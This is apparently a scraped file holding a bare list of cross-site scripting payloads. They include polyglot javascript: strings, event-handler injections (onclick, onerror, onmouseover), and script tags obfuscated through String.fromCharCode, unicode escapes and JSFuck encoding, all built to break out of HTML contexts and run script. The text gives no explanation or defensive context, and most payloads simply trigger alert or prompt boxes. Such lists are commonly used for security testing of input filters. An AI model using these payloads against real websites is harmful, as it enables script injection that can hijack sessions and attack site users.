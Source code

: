 " onmouseover=alert(9205) bad=" "/>jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=prompt() )//%0D%0A%0d%0a//&lt;/stYle/&lt;/titLe/&lt;/teXtarEa/&lt;/scRipt/--!>\x3csVg/&lt;sVg/oNloAd=prompt(123)//>\x3e jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//&lt;/stYle/&lt;/titLe/&lt;/teXtarEa/&lt;/scRipt/--!>\x3csVg/&lt;sVg/oNloAd=alert()//>\x3e " onclick=alert(1)//&lt;button ' onclick=alert(1)//> */ alert(1)// jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//&lt;/stYle/&lt;/titLe/&lt;/teXtarEa/&lt;/scRipt/--!>\x3csVg/&lt;sVg/oNloAd=alert()//>\x3e ';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- >&lt;/SCRIPT>">'>&lt;SCRIPT>alert(String.fromCharCode(88,83,83)) &lt;/SCRIPT> '&lt;script>alert(1)&lt;/script> &lt;script>alert(1)&lt;/script> &lt;script>(+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+([][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[[+!+[]]+[!+[]+!+[]+!+[]+!+[]]]+[+[]]+([][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[[+!+[]]+[!+[]+!+[]+!+[]+!+[]+!+[]]])()&lt;/script> &lt;script>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     &lt;/script> &lt;script>\u0061\u006C\u0065\u0072\u0074(123)&lt;/script> &lt;script>document.write(String.fromCharCode(60,105,109,103,32,115,114,99,61,49,32,111,110,101,114,114,111,114,61,97,108,101,114,116,40,48,41,62));&lt;/script> &lt;script>document.write('&lt;img src=1 onerror=alert(1)>');&lt;/script> " onclick=alert(1)//&lt;button ‘ onclick=alert(1)//> */ alert(1)// ">>&lt;marquee>&lt;img src=x onerror=confirm(1)>&lt;/marquee>" >&lt;/plaintext\>&lt;/|\>&lt;plaintext/onmouseover=prompt(1) >&lt;script>prompt(1)&lt;/script>@gmail.com&lt;isindex formaction=javascript:alert(/XSS/) type=submit>'-->" >&lt;/script>&lt;script>alert(1)&lt;/script>">&lt;img/id="confirm&amp;lpar; 1)"/alt="/"src="/"onerror=eval(id&amp;%23x29;>'">&lt;img src="http: //i.imgur.com/P8mL8.jpg"> /*-->]]>%>?>&lt;/object>&lt;/script>&lt;/title>&lt;/textarea>&lt;/noscript>&lt;/style>&lt;/xmp>'-/"/-alert(1)//>&lt;img src=1 onerror=alert(1)>' javascript://'/&lt;/title>&lt;/style>&lt;/textarea>&lt;/script>-->&lt;p" onclick=alert()//>*/alert()/* javascript://-->&lt;/script>&lt;/title>&lt;/style>"/&lt;/textarea>*/&lt;alert()/*' onclick=alert()//>a javascript://&lt;/title>"/&lt;/script>&lt;/style>&lt;/textarea/-->*/&lt;alert()/*' onclick=alert()//>/ javascript://&lt;/title>&lt;/style>&lt;/textarea>-->&lt;/script>&lt;a"//' onclick=alert()//>*/alert()/* javascript://'//" -->&lt;/textarea>&lt;/style>&lt;/script>&lt;/title>&lt;b onclick= alert()//>*/alert()/*